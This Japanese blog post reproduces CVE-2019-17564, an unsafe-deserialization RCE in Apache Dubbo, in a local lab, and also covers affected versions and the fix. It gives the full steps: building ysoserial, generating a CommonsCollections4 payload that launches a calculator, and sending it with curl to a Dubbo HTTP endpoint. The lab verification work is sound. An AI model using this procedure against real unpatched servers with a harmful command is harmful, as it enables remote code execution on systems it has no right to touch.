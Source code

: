 <div style="text-align: center;">[f:id:motikan2010:20200214224225p:plain]</div>

<div class="contents-box">
  <p>[:contents]</p>
</div>

## はじめに

　2020年2月10日にApache Dubbo の脆弱性が公表されました。  
CVE-2019-17564が登録されたのは2019年10月14日のようです。  

　<b>本脆弱性の内容を一言で言うと、「<span class="m-y">安全でないデシリアライゼーションのJava版</span>」です。</b>
 
　こちらのメールにて Dubboプロジェクトチーム に対して本脆弱性が伝えられています。  
https://www.mail-archive.com/dev@dubbo.apache.org/msg06225.html

　CVE STALKER のデイリーランキングでは7位になっています。  
[f:id:motikan2010:20200214001856p:plain:w600]

<!-- more -->

### Apache Dubbo とは

[f:id:motikan2010:20200214000244p:plain:w600]  

> Apache DubboはJavaをベースにした、オープンソースのリモートプロシージャコールフレームワークである。

　元々はアリババが開発していたものが2011年にOSSになったらしいです。  

[https://github.com/apache/dubbo:embed:cite]

　「Apache Dubbo」で検索してみましたが日本語の記事は以下のものしか見当たりませんでした。  
<span class="m-y">日本国内ではあまり普及していないソフトウェア</span>ではないかと考えられます。中国語の記事が多いイメージでした(ビリビリ動画 など)。  
[https://www.infoq.com/jp/news/2019/08/apache-dubbo/:embed:cite]


#### 脆弱性について

　その 「Apache Dubbo」からデシリアライズの脆弱性(安全でないデシリアライゼーション)が発見されました。  
条件さえ揃えば、<span class="m-y">この脆弱性を利用することでRCEが可能になる脆弱性</span>です。

　Twitterのタイムラインを眺めていても、みんな電卓を起動しているようでした。  

▼ Windows の電卓  
<blockquote class="twitter-tweet"><p lang="en" dir="ltr"><a href="https://twitter.com/hashtag/CVE?src=hash&amp;ref_src=twsrc%5Etfw">#CVE</a>-2019-17564 Apache Dubbo deserialization RCE <a href="https://t.co/3JiuKTo7Sl">pic.twitter.com/3JiuKTo7Sl</a></p>&mdash; pyn3rd (@pyn3rd) <a href="https://twitter.com/pyn3rd/status/1227604675467202561?ref_src=twsrc%5Etfw">February 12, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

▼ Mac の電卓  
<blockquote class="twitter-tweet"><p lang="ja" dir="ltr"><a href="https://twitter.com/hashtag/CVE?src=hash&amp;ref_src=twsrc%5Etfw">#CVE</a>-2019-17564 Apache Dubbo unserialize RCE 反序列化漏洞 <a href="https://t.co/7ukCFDV5iQ">pic.twitter.com/7ukCFDV5iQ</a></p>&mdash; Jas502n (@jas502n) <a href="https://twitter.com/jas502n/status/1227820484558897158?ref_src=twsrc%5Etfw">February 13, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

### 影響を受けるバージョン

- Dubbo 2.7.0 ~ 2.7.4
- Dubbo 2.6.0 ~ 2.6.7
- Dubbo 2.5.x系 (サポートされていない)

 私が確認した部分だと`2.7.4.1`では再現しませんでした。  

### 解決策

- HTTPプロトコルを無効化
- バージョンを`2.7.5`以上にアップデート(2.7.5 は2019年12月29日にリリース済み)

## 検証環境の準備

　検証は Apache Dubbo のサンプルコードを利用することにします。これが一番簡単な構築方法だと思います。  

以下のリポジトリがそのサンプルコードです。  

[https://github.com/apache/dubbo-samples:embed:cite]

そのサンプルコードの中でも今回はHTTPプロトコルを用いるため、<span><a href="https://github.com/apache/dubbo-samples/tree/master/java/dubbo-samples-http" target="_blank">dubbo-samples-http</a></span> を利用します。  

### Apache ZooKeeper を起動

　Dubbo を起動させるために必要です。コンテナイメージが用意されていますのでそちらを利用します。  
```
$ cd ~/IdeaProjects/dubbo-samples
$ cd java/dubbo-samples-zookeeper/src/main/resources/docker
$ docker-compose up
```

[zookeeper - Docker Hub](https://hub.docker.com/_/zookeeper)

### アプリケーションの修正と起動

　`pom.xml`で Dubbo のバージョンに `2.7.3` を指定します。  
[f:id:motikan2010:20200213232817p:plain]  

　引き続き、Apache Commons Collections バージョン`4.0`を依存に追加します。4.0以外では本記事のやり方ではうまくいきません。  
このように特定のライブラリがソフトウェアに含まれていることが、RCEを成功させるために必要な条件の1つです。  
[f:id:motikan2010:20200213232821p:plain]  

　最後に`HttpProvider`を起動します。無事起動したら準備は完了となります。  

## 脆弱性の検証

　次はペイロードの作成と実際に脆弱性を確認するところまでやってみます。  

### ysoserial を使ってペイロードを生成

　次に ysoserial を使ってペイロードを作成していきます。  

[https://github.com/frohoff/ysoserial:embed:cite]

　ysoserial がどのようなツールなのかを簡単に説明すると、<span class="m-y">デシリアライズ時に任意のJavaコードを実行するバイナリを生成するツール</span>です。    

　Javaではオブジェクトをシリアライズするとバイナリになるようになっていますので、このツールの出力結果もバイナリとなっています。  
ですので、出力結果は一旦ファイルに保存する利用方法になるかと思います。本記事でもそのように利用しています。  

　余談として、他言語で同様の役割をするツールとして、PHPの <span><a href="https://github.com/ambionics/phpggc" target="_blank"> PHPGGC </a></span> があります。  
PHPのシリアライズ後の文字列はJavaより分かりやすいため、デシリアライズの脆弱性(安全でないデシリアライゼーション)の学習にはうってつけです。  

<div class="md-code">
```
// ysoserial の取得とビルド
$ git clone https://github.com/frohoff/ysoserial.git
$ cd ysoserial
$ mvn clean package -DskipTests

// Jarの確認
$ cd target/
$ ls -l ysoserial-0.0.6-SNAPSHOT-all.jar

// ペイロードの生成
// 本記事では Apache Commons Collections 4.0 を使っているので 第1引数 CommonsCollections4 を指定します。
// 第2引数には実行するコマンドを記述します。ここでは電卓が起動するように指定しています。
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections4 'open -a Calculator' > poc.ser
```
</div>

### ペイロードの中身を確認

　`poc.ser`ファイルの上部を確認してみるとマジックナンバーが「`ac ed`」となっています。  
これはJavaのシリアライズ後のバイナリ列ということを表しています。(参考: <span>[シリアライズ : kei@sodan](http://funini.com/kei/java/serialize.shtml)</span>)
[f:id:motikan2010:20200213232823p:plain]  

### ペイロードの送信

　このバイナリ列をサンプルアプリケーション対して送信してみます。HTTPクライアントは何でもよいのでcurlコマンドを用いています。 
<div class="md-code">
```
$ curl "http://127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService" --data-binary @poc.ser
```
</div> 

　電卓が起動し、RCEが成功したことを確認することができました。  
[f:id:motikan2010:20200213232826p:plain]  

### 修正版 2.7.5 で試してみる

　エラーになりました。  
エラーの内容は JSON-RPCのフォーマットでないことが指摘されています。バージョンアップに伴いリクエストの形式に変更があったようです。

[f:id:motikan2010:20200214224726p:plain]

## 参考

- <span>[[漏洞分析]CVE-2019-17564/Apache Dubbo存在反序列化漏洞 - Qiita](https://qiita.com/shimizukawasaki/items/39c9695d439768cfaeb5)</span>
- <span>[r00t4dm/CVE-2019-17564](https://github.com/r00t4dm/CVE-2019-17564)</span>


## 更新履歴

- 2020年 2月14日 新規作成